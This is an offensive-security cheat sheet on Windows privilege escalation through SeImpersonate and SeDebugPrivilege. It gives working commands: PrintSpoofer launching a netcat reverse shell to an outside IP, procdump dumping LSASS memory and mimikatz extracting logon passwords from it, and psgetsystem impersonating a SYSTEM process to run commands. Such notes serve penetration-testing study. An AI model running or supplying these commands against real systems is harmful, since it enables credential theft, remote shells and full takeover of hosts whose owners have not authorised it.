 
# Windows User Privileges

## SeImpersonate and SeAssignPrimaryToken

- Essentially, the Potato attack tricks a process running as SYSTEM to connect to their process, which hands over the token to be used and gain NT AUTHORITY\SYSTEM level access.
- We will often run into this privilege after gaining remote code execution via an application that runs in the context of a service account (for example, uploading a web shell to an ASP.NET web application, achieving remote code execution through a Jenkins installation, or by executing commands through MSSQL queries).
- tools
  - [JuicyPotato](https://github.com/ohpe/juicy-potato). JuicyPotato doesn't work on `Windows Server 2019` and `Windows 10 build 1809 onwards`.
  - [PrintSpoofer](https://github.com/itm4n/PrintSpoofer). work on Windows 10 and Server 2016/2019.
  - [RoguePotato](https://github.com/antonioCoco/RoguePotato). 

```powershell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled    
```


### PrintSpoofer
```powershell
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

```

## SeDebugPrivilege
- To run a particular application or service or assist with troubleshooting, a user might be assigned the SeDebugPrivilege instead of adding the account into the administrators group.
- it can be used to capture sensitive information from system memory, or access/modify kernel and application structures.
- 


**check**
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Enabled
```

### Dump Memory
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp

mimikatz.exe "log" "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" exit
```

### RCE
-  If we target a parent process running as SYSTEM (specifying the Process ID (or PID) of the target process or running program), then we can elevate our rights quickly
- [psgetsystem](https://github.com/decoder-it/psgetsystem)




```powershell
# get a listing of running processes and accompanying PIDs.
tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K

# we can target winlogon.exe running under PID 612, which we know runs as SYSTEM on Windows hosts.
Import-Module .\psgetsys.ps1 

ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>
```
